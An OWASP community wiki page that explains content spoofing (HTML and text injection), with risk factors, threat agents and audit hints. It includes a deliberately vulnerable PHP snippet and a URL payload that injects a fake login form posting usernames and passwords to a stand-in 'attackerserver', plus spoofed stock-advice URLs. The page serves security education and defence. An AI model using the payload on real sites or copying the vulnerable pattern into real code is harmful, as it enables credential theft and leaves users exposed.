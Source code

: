 ```yaml
---

layout: col-sidebar
title: Content Spoofing
author: 
contributors: Rishu Ranjan
permalink: /attacks/Content_Spoofing
tags: attack, Content Spoofing
auto-migrated: 1

---
```


{% include writers.html %}

## Description

Content spoofing, also referred to as *content injection*, "arbitrary
text injection" or *virtual defacement*, is an attack targeting a user
made possible by an injection vulnerability in a web application. When
an application does not properly handle user-supplied data, an attacker
can supply content to a web application, typically via a parameter
value, that is reflected back to the user. This presents the user with a
modified page under the context of the trusted domain.
This attack is typically used as, or in conjunction with, social
engineering because the attack is exploiting a code-based vulnerability
and a user's trust. As a side note, this attack is widely misunderstood
as a kind of bug that brings no impact.

> Attack Type: Client-Side 

## Risk Factors

Risk factors depend on the business type of the application. If the
application business brand is well known and has major competitors, this
issue can be abused by malicious competitors/disgruntled
employees/unsatisfied customers to trigger mass distributions of false
messages to unsuspecting customers. Another factor that heightens the
risk is by doing SEO injection in a way that search engines crawl and
index crafted URLs with falsified messages.

By doing so, customers could be forced to switch to competitor's
products. This could lead to loss of monetary value until rectification
is properly done by the victim business. For public traded companies,
its shares will be falling down, leading to uncontrolled loss of
millions.

![Fake-text.png](Fake-text.png "Fake-text.png")

## Attack Scenario

An attacker compromised social accounts which have thousands of
followers and distribute misleading Content Spoofing payload via
Twitter/Facebook/Instagram/ similar popular channel. This will lead
media to assume news is correct and create headline stories.

## Audit Guideline

Text injection can be easily found if:
User input via parameter or directly in the URL is reflected in the page response.
Content-Type: text/plain
Application is giving default error pages

## Applicable Industries

  - A business entity selling one type of product as a major business
    function

For example, Taxi hailing business, Online shopping business, Online
service business

  - A business entity relying on the brand name

For example, Cosmetic brand, Airline brand

## [Threat Agents](Threat_Agents "wikilink")

  - Malicious competitors
  - Disgruntled employees
  - Unsatisfied customers
  - Scammers

## Content Spoofing vs. Cross-site Scripting

Content spoofing is an attack that is closely related to [Cross-site
Scripting (XSS)](Cross-site_Scripting_\(XSS\) "wikilink"). While XSS
uses \[<https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet>

<script>

and other techniques\] to run JavaScript, content spoofing uses other
techniques to modify the page for malicious reasons.

Even if XSS mitigation techniques are used within the web application,
such as proper output encoding, the application can still be vulnerable
to text based content spoofing attacks.

## Examples

### Hypertext Markup Language (HTML) Injection

A possible attack scenario is demonstrated below. For this scenario,
lets assumes no output encoding is being implemented:

1.  Attacker discovers injection vulnerability and decides to spoof a
    login form
2.  Attacker crafts malicious link, including his injected HTML content,
    and sends it to a user via email
3.  The user visits the page due to the page being located within a
    trusted domain
4.  The attacker's injected HTML is rendered and presented to the user
    asking for a username and password
5.  The user enters a username and password, which are both sent to the
    attackers server

<!-- end list -->

  -
    A simple PHP page containing an injection vulnerability via the
    *name* parameter:

<!-- end list -->

    <?php
        $name = $_REQUEST ['name'];
    ?>
    <html>
        <h1>Welcome to the Internet!</h1>
        <br>
        <body>
                Hello, <?php echo $name; ?>!
            <p>We are so glad you are here!</p>
        </body>
    </html>

The page functionality can be tested by making the following GET request
to the page:

    http://127.0.0.1/vulnerable.php?name=test

By requesting the link below, the page renders the injected HTML,
presents a login form, and comments out the rest of the page after the
injection point. Once a user enters their username and password, the
values are sent to a page named *login.php* on the attacker's server via
POST.

    http://127.0.0.1/vulnerable.php?name=<h3>Please Enter Your Username and Password to Proceed:</h3><form method="POST"
    action="http://attackerserver/login.php">Username: <input type="text" name="username" /><br />Password: <input type="password"
    name="password" /><br /><input type="submit" value="Login" /></form><!--

### Text Injection

Another example of a content spoofing attack would be to present false
information to a user via text manipulation. An attack scenario is
demonstrated below. For this scenario, lets assume proper output
encoding HAS been implemented and XSS is not possible:

1.  An attacker identifies a web application that gives recommendations
    to its users on whether they should buy or sell a particular stock
2.  The attacker identifies a vulnerable parameter
3.  The attacker crafts a malicious link by slightly modifying a valid
    request
4.  The link containing the modified request is sent to a user and they
    clicks the link
5.  A valid webpage is created using the attackers malicious
    recommendation and the user believes the recommendation was from the
    stock website

**Valid Page**

    http://vulnerablesite/suggestions.php?stockid=123&stockrecommendation=We+Recommend+You+Buy+Now

**Modified Page**

    http://vulnerablesite/suggestions.php?stockid=123&stockrecommendation=We+Really+Recommend+You+Sell+This+Stock+Now

Other example:

**Modified Page**

    http://vulnerablesite/suggestions.php?stockid=123&stockrecommendation=Our+site+has+experienced+major+hacking+incident.Please+use+our+competitor+site+http://www.competitor.com+until+we+further+announced+for+update.

## Related [Attacks](https://owasp.org/www-community/attacks/)

  - [Cross-site Scripting
    (XSS)](Cross-site_Scripting_\(XSS\) "wikilink")
  - [:Category:Injection Attack](:Category:Injection_Attack "wikilink")

## Related [Vulnerabilities](https://owasp.org/www-community/vulnerabilities/)

  - [:Category:Input Validation
    Vulnerability](:Category:Input_Validation_Vulnerability "wikilink")
  - [Improper Data Validation](Improper_Data_Validation "wikilink")

## Related [Controls](https://owasp.org/www-community/controls/)

  - [XSS (Cross Site Scripting) Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)

## References

  - <http://capec.mitre.org/data/definitions/148.html>
  - <http://projects.webappsec.org/w/page/13246917/Content%20Spoofing>
  - <http://itlaw.wikia.com/wiki/Content_injection_attack>
  - CERT Advisory on Malicious HTML Tags:
    <http://www.cert.org/advisories/CA-2000-02.html>
  - OWASP's [XSS (Cross Site Scripting) Prevention Cheat
    Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
  - OWASP Guide to Building Secure Web Applications and Web Services,
    Chapter 8: [Data Validation](Data_Validation "wikilink")
  - HTML Code Injection and Cross-site Scripting:
    <http://www.technicalinfo.net/papers/CSS.html>
  - Case studies (Spotify, LinkedIn, ..etc):
    <https://twitter.com/ncweaver/status/974802236567007232?s=12>

[Category:Injection](https://owasp.org/www-community/Injection_Flaws)
[Category:Attack](Category:Attack "wikilink")
